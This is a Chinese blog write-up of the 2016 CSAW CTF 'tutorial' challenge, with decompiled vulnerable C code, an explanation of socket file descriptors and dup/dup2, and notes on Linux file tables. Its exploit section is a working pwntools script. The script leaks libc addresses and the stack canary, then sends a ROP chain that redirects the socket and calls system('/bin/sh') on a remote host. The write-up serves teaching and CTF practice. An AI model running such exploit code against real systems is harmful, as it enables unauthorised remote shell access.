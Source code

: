 ```yaml
---
title: 2016 CSAW CTF tutorial
date: 2017-03-02 10:40:50
tags:
- ctf
- stackoverflow
- IO redirect
- dup & dup2
categories:
- ctf_practice
---
```


这道题因为跟管道重定向有关，让我对标准输入，输出有了更深的理解，特此记录一下。

## Challenge

程序逻辑比较简单：建立套接字，然后不断接受连接进行相关操作。主要部分为menu函数：
<!-- more -->
```c
ssize_t __fastcall menu(int a1)
{
  char buf; // [sp+10h] [bp-10h]@1

  while ( 1 )
  {
    while ( 1 )
    {
      write(a1, "-Tutorial-\n", 0xBuLL);
      write(a1, "1.Manual\n", 9uLL);
      write(a1, "2.Practice\n", 0xBuLL);
      write(a1, "3.Quit\n", 7uLL);
      write(a1, ">", 1uLL);
      read(a1, &buf, 2uLL);
      if ( buf != 50 )
        break;
      func2((unsigned int)a1, &buf);
    }
    if ( buf == 51 )
      break;
    if ( buf == 49 )
      func1((unsigned int)a1, &buf);
    else
      write(a1, "unknown option.\n", 0x10uLL);
  }
  return write(a1, "You still did not solve my challenge.\n", 0x26uLL);
```
fun1主要是输出puts的地址。fun2函数如下：
```c
__int64 __fastcall func2(int a1)
{
  char s; // [sp+10h] [bp-140h]@1
  __int64 v3; // [sp+148h] [bp-8h]@1

  v3 = *MK_FP(__FS__, 40LL);
  bzero(&s, 0x12CuLL);
  write(a1, "Time to test your exploit...\n", 0x1DuLL);
  write(a1, ">", 1uLL);
  read(a1, &s, 0x1CCuLL);
  write(a1, &s, 0x144uLL);
  return *MK_FP(__FS__, 40LL) ^ v3;
```
程序开启了栈保护，但是又把canary的值输出来了，所以问题就简单了。
但是有一个问题，该程序中的针对用户连接的操作的文件描述符全是套接字描述，而不是标准输入和输出，而system函数是和标准输入输出相关联的。所以我针对此问题特地仔细地思考了一下。

平时搭建pwn题一般用下面的命令：
```shell
socat TCP4-LISTEN:10000, fork EXEC:./pwnu
```
此命令的作用是把pwnu程序绑定到本机的10000端口上，也就是说pwnu的标准输入只能来自本机的10000端口了，标准输出也会流行此端口。通俗的讲就是这两个流在进行通信。

所以当你在服务端执行了system函数时，标准输出会流向本机端口进而传输到连接方，所以shell可以远程交互。

但是这题就不同了，直接用./tutorial 10000执行程序就行了，也没涉及到标准输入输出啥的，只涉及一个套接字描述符，所以就只能用dup把标准输入输出和套接字描述符涉及的管道相关联。这样system函数执行后得到的shell就是可交互的了。先close(0), close(1)，然后dup(4), dup(4)即可。

## Exploit
```python
from pwn import *

debug = 0
if debug:
	p = process('./tutorial')
else:
	p = remote('192.168.109.131', 10000)

pop_rdi_ret = 0x00000000004012e3
libc = ELF('libc.so_ub')
system_off = libc.symbols['puts'] - libc.symbols['system']
dup_off = libc.symbols['puts'] - libc.symbols['dup']
binsh_off = libc.symbols['puts'] - next(libc.search('/bin/sh'))
close_off = libc.symbols['puts'] - libc.symbols['close']

#get the address
p.recvuntil(">")
p.sendline("1")
r = p.recvline()
puts_addr = int(r[10:-1], 16) + 1280
print "puts_address: " + hex(puts_addr)
system_addr = puts_addr - system_off
print "system_address: " + hex(system_addr)
dup_addr = puts_addr - dup_off
print "dup_address: " + hex(dup_addr)
binsh_addr = puts_addr - binsh_off
print "binsh_address: " + hex(binsh_addr)
close_addr = puts_addr - close_off
print "close_address: " + hex(close_addr)

#leak the canary
p.recvuntil(">")
p.sendline("2")
p.recvuntil(">")
p.sendline('a' * 311)
canary = p.recv()[312:320]

#rop to get shell
p.recvuntil(">")
p.sendline("2")
p.recvuntil(">")
payload = 'a' * 312 + canary + 'b' * 8 + p64(pop_rdi_ret) + p64(0) + p64(close_addr)
payload += p64(pop_rdi_ret) + p64(1) + p64(close_addr) + p64(pop_rdi_ret) + p64(4) + p64(dup_addr)
payload += p64(dup_addr) + p64(pop_rdi_ret)  + p64(binsh_addr) + p64(system_addr)

p.sendline(payload)

p.interactive()
```

## More about IO

内核用三个相关的数据结构来表示打开的文件：
1. 描述符表。每个进程都有独立的描述符表，它的表项由进程打开的文件描述符索引。每个打开的描述符表项指向文件表中的一个表项。
2. 文件表。打开文件的集合是由一张文件表来表示的，所有的进程共享这张表。每个文件表的表项组成(不全)包括有当前的文件位置，引用计数(当前指向该表项的描述符表项数)，以及一个指向v-node表中对应表项的指针。关闭一个描述符会减少相应的文件表表项中的引用计数。内核不会删除这个文件表表项直到它的引用计数为零。
3. v-node表。同文件表一样，所有进程共享v-node表。每个表项包含stat结构(描述linux文件系统中文件属性)中的大多数信息。

多个描述符可以通过不同的文件表表项来引用同一个文件。例如，如果以同一个filename调用open函数两次。关键思想是每个描述符都有它自己的文件位置，所以对不同描述符的读操作可以从文件的不同位置获取数据。

<img src="http://of38fq57s.bkt.clouddn.com/file1.PNG">
<img src="http://of38fq57s.bkt.clouddn.com/file-share.PNG">
<img src="http://of38fq57s.bkt.clouddn.com/file-fork.PNG">

dup2(oldfd,newfd)函数拷贝描述符表表项oldfd到描述符表表项newfd，覆盖描述符表表项newfd以前的内容。如果newfd已经打开了，dup2会在拷贝oldfd之前关闭newfd。执行dup2(4,1)后，文件A被关闭，并且它的文件表和v-node表也被删除了。任何写到标准输出的数据都被重定向到文件B。
<img src="http://of38fq57s.bkt.clouddn.com/file-dup2.PNG">
当调用dup(oldfd)函数，内核创建一个新的文件描述符，此描述符是当前可用描述符的最小值，这个文件描述符表项指向oldfd所拥有的文件表项。
